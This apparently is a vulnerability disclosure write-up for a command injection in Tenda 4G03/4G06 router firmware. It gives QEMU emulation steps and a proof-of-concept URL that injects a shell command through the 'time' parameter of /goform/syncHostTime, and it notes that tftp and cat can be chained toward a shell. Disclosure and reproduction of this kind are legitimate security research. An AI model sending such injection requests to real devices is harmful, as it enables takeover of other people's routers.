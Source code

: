 # tenda_4g03-4g06_vuln
vuln__firm_version 
4g03 <= V16.03.07.21_multi
4g03 <= V16.03.07.21_multi

# Vulnerability Reproduction
Firmware example ：
https://down.tendacn.com/uploadfile/4G03/US_4G03V1.0re_V16.03.07.21_multi_TDE01.zip

## system emulate:
## Host
sudo brctl addbr br0
sudo ifconfig br0 192.168.1.137/24 up
sudo tunctl -t tap0
sudo ifconfig tap0 192.168.1.138/24 up
sudo brctl addif br0 tap0

## Guest
ip link add br0 type dummy
ifconfig eth0 192.168.1.139/24 up
ifconfig br0 192.168.1.140/24 up

## Mount file system
mount -o bind /dev ./squashfs-root/dev/
mount -t proc /proc/ ./squashfs-root/proc/
chroot squashfs-root /bin/sh

# Emulation
sudo qemu-system-mipsel -M malta -kernel vmlinux-2.6.32-5-4kc-malta -hda debian_squeeze_mips_standard.qcow2 -append "root=/dev/sda1 console=tty0" -netdev tap,id=tapnet,ifname=tap0,script=no -device rtl8139,netdev=tapnet -nographic

# Vulnerability information
![image](https://github.com/user-attachments/assets/33559806-3b51-4215-96f5-0ccb4eee08cd)
Pass the URL parameters to var, control var, and then execute the corresponding system function through doSystemCmd.

## after emulate successed
run ./bin/httpd 
![image](https://github.com/user-attachments/assets/7a584e9a-0ac2-4bf9-9d61-6ed739434c99)

## browser access
http://192.168.1.140/goform/syncHostTime/js/libs/reasy-ui-1.0.3.js?time=$(ls%20-al)
you can see it in the simulation termina
![image](https://github.com/user-attachments/assets/725fa838-9d72-4f69-a5a9-9c2b105b3754)

After testing, not only can execute 'ls'. Can also execute 'echo', 'cat', 'tftp' and other commands that can be used to construct payloads to obtain shell commands
